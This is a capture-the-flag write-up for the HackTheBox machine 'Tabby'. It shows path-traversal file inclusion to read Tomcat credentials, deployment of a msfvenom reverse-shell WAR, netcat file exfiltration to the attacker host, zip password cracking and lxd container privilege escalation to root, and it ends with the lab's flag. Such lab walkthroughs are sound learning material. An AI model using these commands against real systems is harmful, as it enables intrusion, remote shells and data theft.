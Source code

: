 ```yaml
---
layout: post
title:  "Tabby HackTheBox Walkthrough"
date:   2020-12-02 15:00:00 +0530
categories: HackTheBox CTF
---
```

Tabby is a machine in which I used Local File Inclusion to get tomcat credintials to obtain shell access and then used enumeration and lxd to get root Access.

## Recon
As always, I started scanning with Nmap

```
kali@kali:~$ nmap -sC -sV 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-30 08:01 EDT
Nmap scan report for megahosting.htb (10.10.10.194)
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.32 seconds


```
Two HTTP Services one of them is tomcat and a ssh service .

## Exploitation

First I opened the 80 service and inspected element and found this suspeciouc url

```
http://megahosting.htb/news.php?file=statement
```
I tested for 
1. SQL Injection (Failed)
2. Local File Inculsion (Succeded)

So I tried 
1. Log Poisoning (Failed)
2. Accessing Procs (Failed)
3. Accessing SSH id Files (Failed)
4. Accessing Tomcat Cred Files (Succeded)

The tomcat cred files required me to do some guessing as it's not in the default path, I found it in this path

```
view-source:http://megahosting.htb/news.php?file=../../../../../../../../../../../../../../../../../../../../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml
```
![Username](/assets/machines/hackthebox/tabby/1.png)

Imedittly I searched for ways to deploy war shell. and found one using msfvenom and curl

```
root@kali:/home/kali/Desktop/tabby# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.110 LPORT=9999 -f war > shell.war
root@kali:/home/kali/Desktop/tabby# curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file shell.war "http://10.10.10.194:8080/manager/text/deploy?path=/shell.war"
root@kali:/home/kali# nc -lvnp 9999
listening on [any] 9999 ...
```

## From Tomcat to Ash

And got the shell. After Enumeration I found a backup file in /var/www/html/files/16162020_backup.zip. So I downloaded it using nc
### Target
```
nc -w 3 10.10.14.110 1234 < 16162020_backup.zip
```

### Hacker
```
nc -l -p 1234 > file.zip
```

Then I used fcrackzip to crack the file and found the password

### Hacker
```
root@kali:/home/kali/Desktop/tabby2# fcrackzip -D -p /usr/share/wordlists/rockyou.txt file.zip 
possible pw found: admin@it ()                                                                                    
```

### Target
```
tomcat@tabby:/home$ su ash                                                                                        
su ash                                                                                                            
Password: admin@it                                                                                                
                                                                                                                  
ash@tabby:/home$ id                                                                                               
id                                                                                                                
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)                        
```

and admin@it was the password for ash.

## From Ash to Root
After the id command I found an Intersteing thing (lxd). I searched for privlige Esuclation using lxd and found one

### Hacker
```
root@kali:/home/kali/Desktop/tabby2# git clone  https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
.....
root@kali:/home/kali/Desktop/tabby2/lxd-alpine-builder# ./build-alpine
root@kali:/home/kali/Desktop/tabby2/lxd-alpine-builder# python -m SimpleHTTPServer 5555
Serving HTTP on 0.0.0.0 port 5555 ...
10.10.10.194 - - [30/Sep/2020 08:19:08] "GET /alpine-v3.12-x86_64-20200930_0818.tar.gz HTTP/1.1" 200 -
                                                                   
```
### Target

```
ash@tabby:/home$ cd ash
cd ash
ash@tabby:~$ wget http://10.10.14.110:5555/alpine-v3.12-x86_64-20200930_0818.tar.gz
ash@tabby:~$ lxc image import alpine-v3.12-x86_64-20200930_0818.tar.gz --alias myimage
ash@tabby:~$ lxd init
ash@tabby:~$ lxc init myimage ignite -c security.privileged=true
ash@tabby:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
ash@tabby:~$ lxc start ignite
ash@tabby:~$ lxc exec ignite /bin/sh
~ # ^[[58;5Rwhoami
whoami
root
cd /mnt/root
/mnt/root # ^[[58;13Rcd root
cd root
/mnt/root/root # ^[[58;18Rls
ls
root.txt  snap
/mnt/root/root # ^[[58;18Rcat root.txt
cat root.txt
eb940715ff82f9ec2d6858187aa8b28d

```
and voila here is the root privilege!





